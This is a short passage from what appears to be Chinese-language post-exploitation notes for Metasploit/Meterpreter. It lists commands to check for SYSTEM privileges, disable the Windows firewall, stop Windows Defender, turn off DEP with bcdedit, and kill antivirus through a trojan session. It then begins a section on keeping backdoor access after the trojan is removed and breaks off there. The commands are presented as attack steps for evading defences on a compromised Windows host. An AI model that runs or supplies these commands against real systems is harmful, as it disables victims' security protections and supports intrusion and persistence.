 ```
whoami   #查看是否为系统权限
```



**关闭防火墙**

```
netsh advfirewall set allprofiles state off
```



**关闭defener**

```
net stop windefend
```



**关闭dep(数据执行保护)**

```
bcdedit.exe /set {current} nx AlwaysOff
```



**退出命令行返回到msf里**：

```
exit
```

回到meterpreter的木马里



**关闭杀毒软件**

```
run killav

(run post/windows/manage/killav)
```

大多数关闭国外杀毒软件



### 关于远程连接——在木马被杀掉后能有后门进行连接

一般情况：
